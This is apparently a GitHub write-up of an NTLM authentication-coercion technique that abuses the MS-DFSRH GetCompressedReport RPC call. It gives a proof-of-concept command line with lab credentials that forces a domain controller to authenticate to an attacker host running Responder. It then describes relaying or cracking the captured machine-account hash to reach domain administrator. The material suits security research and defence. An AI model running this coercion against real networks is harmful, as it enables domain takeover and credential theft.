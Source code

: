 # MS-DFSRH - Remote call to GetCompressedReport (opnum 10)

## Summary

 - **Protocol**: [[MS-DFSRH]: DFS Replication Helper Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae)

 - **Protocol UUID**: 9009d654-250b-4e0d-9ab0-acb63134f69f

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`GetCompressedReport`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/e44138ae-c67d-4524-a724-3cf77afca244)

 - **Function operation number**: `10`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DFSRH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae) protocol (with uuid `9009d654-250b-4e0d-9ab0-acb63134f69f` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DFSRH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DFSRH]: DFS Replication Helper Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae) and allows to call RPC functions of this protocol. We will then call the remote [`GetCompressedReport`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/e44138ae-c67d-4524-a724-3cf77afca244) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
GetCompressedReport('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT GetCompressedReport(
   [in] GUID replicationGroupGuid,
   [in] BSTR referenceMember,
   [in] BSTR serverName,
   [in] SAFEARRAY (_VersionVectorData)* referenceVersionVectors,
   [in] LONG flags,
   [out] SAFEARRAY (_VersionVectorData)* memberVersionVectors,
   [out] BSTR* reportCompressed,
   [out] LONG* uncompressedReportSize
 );
```

## References

 - Documentation of protocol [MS-DFSRH]: DFS Replication Helper Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae

 - Documentation of function `GetCompressedReport`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/e44138ae-c67d-4524-a724-3cf77afca244